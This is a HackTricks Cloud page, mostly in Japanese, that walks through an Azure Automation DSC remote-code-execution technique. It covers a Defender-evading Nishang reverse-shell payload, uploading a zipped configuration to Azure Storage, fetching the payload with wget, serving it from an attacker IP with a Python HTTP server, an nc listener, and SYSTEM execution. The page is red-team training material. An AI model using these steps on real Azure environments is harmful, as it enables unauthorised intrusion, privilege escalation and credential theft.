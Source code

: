 # Az - State Configuration RCE

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

**Check the complete post in:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Summary of Remote Server (C2) Infrastructure Preparation and Steps

#### Overview

このプロセスは、Windows Defenderを回避するように設計された修正されたNishang `Invoke-PowerShellTcp.ps1`ペイロード、`RevPS.ps1`をホストするためのリモートサーバーインフラストラクチャの設定を含みます。ペイロードは、IP `40.84.7.74`のKali LinuxマシンからシンプルなPython HTTPサーバーを使用して提供されます。この操作は、いくつかのステップを通じて実行されます。

#### Step 1 — Create Files

* **Files Required:** 必要なPowerShellスクリプトは2つです：
1. `reverse_shell_config.ps1`: ペイロードを取得して実行するDesired State Configuration (DSC)ファイル。これは[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse\_shell\_config.ps1)から入手可能です。
2. `push_reverse_shell_config.ps1`: VMに構成を公開するためのスクリプトで、[GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push\_reverse\_shell\_config.ps1)で入手できます。
* **Customization:** これらのファイル内の変数とパラメータは、リソース名、ファイルパス、サーバー/ペイロード識別子を含むユーザーの特定の環境に合わせて調整する必要があります。

#### Step 2 — Zip Configuration File

* `reverse_shell_config.ps1`は、Azure Storage Accountへの転送の準備が整うように`.zip`ファイルに圧縮されます。
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — ストレージコンテキストの設定とアップロード

* ZIP形式の構成ファイルは、AzureのSet-AzStorageBlobContent cmdletを使用して、事前定義されたAzure Storageコンテナazure-pentestにアップロードされます。
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### ステップ 4 — Kali ボックスの準備

* Kali サーバーは、GitHub リポジトリから RevPS.ps1 ペイロードをダウンロードします。
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
* スクリプトは、ターゲットのWindows VMとリバースシェルのポートを指定するように編集されます。

#### Step 5 — 設定ファイルを公開する

* 設定ファイルが実行され、リバースシェルスクリプトがWindows VMの指定された場所にデプロイされます。

#### Step 6 — ペイロードをホストし、リスナーを設定する

* ペイロードをホストするためにPythonのSimpleHTTPServerが起動され、受信接続をキャプチャするためのNetcatリスナーが設定されます。
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
* スケジュールされたタスクがペイロードを実行し、SYSTEMレベルの特権を達成します。

#### 結論

このプロセスの成功した実行は、資格情報のダンプや攻撃を複数のVMに拡大するなど、さらなるアクションの可能性を開きます。このガイドは、Azure Automation DSCの領域での継続的な学習と創造性を奨励しています。

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

